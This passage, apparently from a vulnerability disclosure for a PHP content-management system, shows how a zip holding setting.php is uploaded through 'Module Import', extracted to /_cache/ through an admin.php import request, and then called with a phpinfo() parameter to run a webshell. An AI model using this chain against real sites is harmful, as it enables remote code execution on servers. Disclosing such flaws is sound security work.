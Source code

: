 Click on "Module Import" in the upper right corner, then select the exp.zip file (which contains a setting.php file) and get the file name returned by the server:_cache/8c686ae55613e286.zip

![26.png](./img/26.png)

Then visit: ```/admin.php?c=module&f=import&zipfile=_cache/8c686ae55613e286.zip```
, setting.php will be extracted to the /_cache/ directory.

Visit ```/_cache/setting.php?aaa=phpinfo(); ```to execute webshell:

![27.png](./img/27.png)

**[5]**

In the index_f function of \framework\admin\order_control.php:

![28.png](./img/28.png)
